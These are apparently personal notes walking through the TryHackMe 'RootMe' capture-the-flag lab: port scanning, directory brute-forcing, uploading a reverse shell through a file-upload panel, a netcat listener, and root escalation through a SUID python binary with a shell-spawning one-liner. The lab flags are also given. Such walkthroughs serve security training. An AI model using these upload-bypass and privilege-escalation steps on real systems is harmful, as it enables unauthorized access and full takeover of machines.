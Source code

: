 https://tryhackme.com/room/rrootme

- run nmap to discover open ports `nmap -sC -sV <IP>`:
	- 22: ssh
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- poke in webapp:
	- one page side, nothing interesting on code
	- gobuster:
		- `gobuster dir -u <IP> -w <wordlist>`
			- -> /css, /js, /uploads, /panel
			- insteresting is panel (uploadong files) and uploads 

- getting reverse shell
	- uploading reverse shell script - /panel
		- figure out possible extensions to upload
	- set listener `nc -lnvp 4444`
	- run the shell from /uploads
	- find a user.txt flag
		- `find / -name user.txt 2>/dev/null`
		- -> THM{y0u_g0t_a_sh3ll}

- root the machine
	- `sudo -l` -> nothing
	- get SUID files `find / -user root -perm /4000`
		- -> interesting: /usr/bin/python
		- exploit: `python -c 'import os; os.execl("/bin/sh","sh","-p")'`
			- if you don't have stable shell you get empty line but try `whoami`!!!
			- root flag: THM{pr1v1l3g3_3sc4l4t10n} 